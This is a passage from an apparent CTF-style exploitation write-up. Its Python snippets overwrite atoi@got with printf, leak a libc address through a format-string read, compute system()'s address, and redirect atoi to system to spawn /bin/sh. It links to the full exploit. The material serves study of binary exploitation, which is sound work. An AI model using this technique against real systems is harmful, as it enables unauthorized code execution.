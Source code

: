 {% highlight python %}
    update_key(s, PRINTF_IMPORT, False)
    ok("atoi@got: %#x -> %#x" % (ATOI_GOT, PRINTF_IMPORT))
{% endhighlight %}

So now every time the control flow will hit the `atoi()` function, the `printf()`
stub will be executed, and we will receive the argument from the socket! So
every time the banner will prompt for a choice (1-4), the buffer we send will be
the argument to `printf()`.


#### Triggering the exploit ####

By leaking the memory, we find that an address to the libc can be found (at
least) at the offset 21:
![libc-leak](https://i.imgur.com/Q5UpCbc.png)

On the C library I tested, the `system()` function was located at an offset of
0x37524 from the base. So now, we know the address of `system()`:
{% highlight python %}
    while True:
        s.write("data> %21$#.8x\n")
        leak = s.read_until("\n")
        if "data> " in leak:
            break

    libc_leak = int(leak.strip().split()[-1], 16)
    libc_base = libc_leak - 0x16d24
    libc_system = libc_base + 0x37524

    ok("Got libc_leak: %#x" % libc_leak)
    ok("Got libc_base: %#x" % libc_base)
    ok("Got libc_system: %#x" % libc_system)
{% endhighlight %}

And to complete the exploitation, all we must do is overwrite again `atoi@got`
with the address of `system()`, and when `fgets()` will be triggered, simply
enter the command we want to execute, in this case `/bin/sh` will do:
{% highlight python %}
    update_key(s, libc_system, True)
    ok("atoi@got: %#x -> %#x" % (ATOI_GOT, libc_system))

    s.write("/bin/sh"+'\x00'*10)
    s.write("\n")
{% endhighlight %}

The exploit is complete, we can run it:
![](https://i.imgur.com/Ei1aeLb.png)

And as always, go [here](https://gist.github.com/hugsy/187f7dd80cb5bff20842) for
the full exploit.

Peace out ✌
